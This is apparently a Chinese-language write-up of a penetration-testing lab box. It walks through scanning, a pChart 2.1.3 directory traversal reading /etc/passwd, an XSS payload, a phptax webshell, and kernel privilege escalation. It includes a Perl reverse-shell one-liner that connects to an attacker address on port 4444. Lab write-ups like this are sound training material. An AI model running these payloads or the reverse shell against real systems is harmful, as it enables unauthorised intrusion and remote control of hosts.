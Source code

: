 ## 扫描
```
sudo nmap -Pn -sC -sV -O 192.168.80.128

```


## web枚举

* 查看80页面源码发现了个目录

	![[Pasted image 20240124150547.png]]

* 打开后用searchsploit搜索关键字pChart发现了目录穿越和XSS漏洞
	![[Pasted image 20240124150806.png]]

```

目录穿越
http://192.168.80.128/pChart2.1.3/examples/index.php?Action=View&Script=%2f..%2f..%2fetc/passwd

XSS
"http://192.168.80.128/pChart2.1.3/examples/sandbox/script/session.php?<script>alert('XSS')</script>

```

>对暴露出的两个路径进行扫描

```
# sudo dirsearch -u "http://192.168.80.128/pChart2.1.3/"
	[15:00:13] 301 -  248B  - /pChart2.1.3/cache  
	[15:00:13] 200 -  250B  - /pChart2.1.3/cache/
	[15:00:14] 200 -   24KB - /pChart2.1.3/change.log
	[15:00:15] 301 -  248B  - /pChart2.1.3/class  
	[15:00:42] 301 -  247B  - /pChart2.1.3/data 
	[15:00:42] 200 -  324B  - /pChart2.1.3/data/
	[15:00:55] 301 -  251B  - /pChart2.1.3/examples  
	[15:00:55] 200 -   85KB - /pChart2.1.3/examples/
	[15:01:12] 301 -  248B  - /pChart2.1.3/fonts  
	[15:02:39] 200 -   12KB - /pChart2.1.3/readme.txt


# sudo dirsearch -u "http://192.168.80.128/pChart2.1.3/examples"
	[15:02:01] 301 -  260B  - /pChart2.1.3/examples/pictures 
	[15:02:15] 301 -  261B  - /pChart2.1.3/examples/resources 
	[15:02:15] 200 -    1KB - /pChart2.1.3/examples/resources/
```

> 查看readme.txt后发现了网站更详细的目录

``` 
 ┬
 │
 ├─ /cache			This folder is used by the pCache module.
 │
 ├─ /class			This folder contains the library core classes.
 │   │
 │   ├─ pBarcode39.class	Class to draw Code 39 barcodes.
 │   ├─ pBarcode128.class	Class to draw Code 128 barcodes.
 │   ├─ pBubble.class		Class to draw bubble charts.
 │   ├─ pCache.class		Class enable chart caching functionalities.
 │   ├─ pData.class		Class to manipulate chart data.
 │   ├─ pDraw.class		Extended drawing functions.
 │   ├─ pIndicator.class	Class to draw indicators.
 │   ├─ pImage.class		Core drawing functions.
 │   ├─ pPie.class		Class to draw pie charts.
 │   ├─ pSplit.class		Class to draw split path charts.
 │   ├─ pSpring.class		Class to draw spring charts.
 │   ├─ pScatter.class		Class to draw scatter charts.
 │   ├─ pStock.class		Class to draw stock charts.
 │   └─ pSurface.class		Class to draw surface charts.
 │
 ├─ /data			This folder contains extended data.
 │   │
 │   ├─ 39.db			Code 39 barcodes static database.
 │   └─ 128.db			Code 128 barcodes static database.
 │
 ├─ /examples			This folder contains some PHP examples.
 │   │
 │   ├─ delayedLoader		Delayed loader script example.
 │   ├─ imageMap		Image map script example.
 │   └─ sandbox			Powerful dev. tool to design your charts.
 │
 ├─ /fonts			This folder contains a bunch of TTF fonts.
 │
 ├─ /palettes			Sample palettes files.
 │
 ├─ change.log			History of all the changes since the 2.0
 ├─ GPLv3.txt			GPLv3 official text.
 └─ readme.txt			This file.

```

```shell
对两个文件解密：
39.db

--> for i in $(cat 39new.db);do echo "obase=16;ibase=2;$i" | bc ;sleep 0.3;done

result : Ҳ٦ӳҲԴڬֶԴյڭֶյʚ͖˛ʚ

128B.db

--> for i in $(cat 128Bnew.db);do echo "obase=16;ibase=2;$i" | bc ;sleep 0.3;done

result : lffIHDLLFddbYML\NNgedngvtrrvssmlcQEDXFFhbb[XF]\GwhbnnnutqvvqwdxSPKHBBYXMLCCae{aGSKI^OOzyymo{WQE^^zz]^uzhii

没得到任何结果
```


`$FreeBSD: release/9.0.0/etc/master.passwd 218047 2011-01-28 22:29:38Z pjd $`
>网上找到FreeBSD的apache路径，从apache配置文件找到了8080端口登录需要修改UA头
>在burp中的tools->proxy->match and replace rules 中修改ua头为mozilla/4.0



然后再次访问8080就可以显示页面，使用searchsploit phptax 发现了漏洞利用方式
![[Pasted image 20240127161844.png]]

向这个路径写入一句话
![[Pasted image 20240127162032.png]]

扫描站点

```SHELL
sudo gobuster dir -u "http://192.168.80.128:8080/phptax/" -x php,txt,xml,html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H 'User-Agent:Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)' -b 403,404
或
sudo dirsearch -u "http://192.168.80.128:8080/phptax/" --user-agent='Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)'


/index.php            (Status: 200) [Size: 11974]
/files                (Status: 301) [Size: 248] [--> http://192.168.80.128:8080/phptax/files/]
/data                 (Status: 301) [Size: 247] [--> http://192.168.80.128:8080/phptax/data/]
/pictures             (Status: 301) [Size: 251] [--> http://192.168.80.128:8080/phptax/pictures/]
/maps                 (Status: 301) [Size: 247] [--> http://192.168.80.128:8080/phptax/maps/]
/readme               (Status: 301) [Size: 249] [--> http://192.168.80.128:8080/phptax/readme/]

```

去到站点发现了上传的一句话

```perl
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"172.26.32.20:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

将反弹shell进行url编码，然后kali监听，得到shell
```

![[Pasted image 20240127165652.png]]
使用内核提权

使用 nc 将文件传输到靶机，直接gcc后，运行可执行文件后提权成功
